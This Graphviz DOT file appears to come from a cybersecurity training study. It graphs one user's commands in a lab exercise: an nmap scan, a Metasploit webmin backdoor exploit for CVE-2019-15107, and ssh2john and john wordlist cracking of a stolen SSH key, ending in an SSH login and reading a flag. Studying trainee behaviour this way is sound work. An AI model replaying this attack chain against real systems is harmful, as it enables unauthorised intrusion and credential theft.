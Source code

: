 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 A0 M0 A1 "]
	3 [label="msfconsole A2 M2 "]
	4 [label="search webmin 1.920 A3 M3 "]
	5 [label="search cve:2019-15107 A3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor A8 M8 "]
	7 [label="show options A5 M5 "]
	8 [label="set TARGETURI=172.18.1.5:10000 A6 "]
	9 [label="set TARGETURI 172.18.1.5:10000 A6 "]
	10 [label="run V8 "]
	11 [label="show options V5 "]
	12 [label="set TARGETURI / A6 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="run V8 "]
	15 [label="set LHOST 0.0.0.0 A6 M6 "]
	16 [label="run V8 "]
	17 [label="show options V5 "]
	18 [label="search edb:47230 A3 "]
	19 [label="search webmin V3 "]
	23 [label="run V8 "]
	24 [label="show options V5 "]
	25 [label="set LHOST 10.1.135.83 V6 "]
	26 [label="run V8 "]
	27 [label="ls A10 "]
	29 [label="ls A10 "]
	30 [label="ls A10 "]
	31 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	32 [label="python ssh2john.py A13 M13 A14 A16 "]
	36 [label="ls A10 "]
	37 [label="python ssh2john.py rsa_d V13 "]
	38 [label="python ssh2john.py rsa_d > john_rsa V13 "]
	39 [label="john john_rsa A14 "]
	40 [label="john rsa_d A14 "]
	41 [label="john john_rsa A14 "]
	42 [label="python ssh2john.py /tmp.k > rsa2 V13 "]
	43 [label="cat rsa_d A1 A9 A11 A12 A17 "]
	44 [label="john ---h A14 "]
	45 [label="john -h A14 "]
	46 [label="ls A10 "]
	47 [label="ls Documents/m A10 "]
	48 [label="ls Documents/ A10 "]
	49 [label="ls Documents/ -laR A10 "]
	50 [label="ls A10 "]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt A14 M14 "]
	52 [label="john --show A5 A14 "]
	53 [label="ls A10 "]
	54 [label="john rsa_d --show A5 A14 "]
	55 [label="ls A10 "]
	56 [label="ls fasttrack.txt A10 "]
	57 [label="ls -l A10 "]
	58 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt.gz V14 "]
	59 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	61 [label="head rockyou.txt A9 A11 A12 A17 "]
	62 [label="john rsa2 --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	63 [label="ls A10 "]
	64 [label="john john_rsa A14 "]
	65 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	66 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	67 [label="john A14 "]
	68 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show V14 "]
	69 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=left V14 "]
	70 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=right V14 "]
	71 [label="john john_rsa --show --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	72 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	73 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --show V14 "]
	74 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	75 [label="less rockyou.txt A9 A11 A12 A17 "]
	76 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	77 [label="ls A10 "]
	78 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH V14 "]
	79 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa2 --format=SSH V14 "]
	80 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH V14 "]
	81 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	82 [label="john --show A5 A14 "]
	83 [label="john --show john_rsa A5 A14 "]
	84 [label="python ssh2john.py r.txt > rsa3 V13 "]
	85 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose V14 "]
	86 [label="john A14 "]
	87 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose V14 "]
	88 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SS V14 "]
	89 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	90 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	91 [label="less rockyou.txt A9 A11 A12 A17 "]
	92 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	93 [label="show rsa_ A5 "]
	94 [label="show rsa_d A5 "]
	95 [label="john --show rsa_d A5 A14 "]
	96 [label="python ssh2john.py /tmp/id_rsa hash V13 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash V13 "]
	98 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	99 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	100 [label="john --show hash A5 A14 "]
	101 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	102 [label="john --wordlist=all.lst hash V14 "]
	103 [label="sudo john A14 "]
	104 [label="john --show hash --format=SSH A5 A14 "]
	105 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	106 [label="john --show hash --format=SSH A5 A14 "]
	107 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	108 [label="john --show hash --format=SSH A5 A14 "]
	109 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	110 [label="ls A10 "]
	112 [label="john --wordlist wl.txt hash V14 "]
	113 [label="ls A10 "]
	114 [label="john --show hash A5 A14 "]
	116 [label="john --wordlist wl.txt hash V14 "]
	117 [label="john --show hash A5 A14 "]
	118 [label="john --show --format=SSH                             hash A5 A14 "]
	119 [label="cat /tmp/id_rsa A12 M12 A17 "]
	120 [label="python ssh2john.py /tmp/id_rsa V13 "]
	121 [label="ssh-add /tmp/id_rsa A16 "]
	122 [label="ssh-add id_rsa A16 "]
	124 [label="ls -la A10 "]
	125 [label="python ssh2john.py id_rsa > hash V13 "]
	126 [label="john --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	127 [label="john --show id_rsa A5 A14 "]
	128 [label="john --show hash A5 A14 "]
	129 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	130 [label="john --show hash A5 A14 "]
	131 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork 4 hash V14 "]
	132 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork=4 hash V14 "]
	133 [label="john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 hash V14 "]
	134 [label="ssh-add id_rsa A16 "]
	135 [label="ssh eve@10.1.17.4 A16 M16 "]
	136 [label="cp id_rsa .ssh/id_rsa A16 "]
	137 [label="ssh eve@10.1.17.4 V16 "]
	138 [label="ls A10 "]
	139 [label="ls -a A10 "]
	142 [label="ssh-add id_rsa A16 "]
	143 [label="ssh eve@10.1.17.4 V16 "]
	144 [label="ls A10 "]
	146 [label="ls A10 "]
	147 [label="cat flag A1 A9 A11 A12 A17 "]
	148 [label="cat flag.txt A17 M17 "]
	0 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
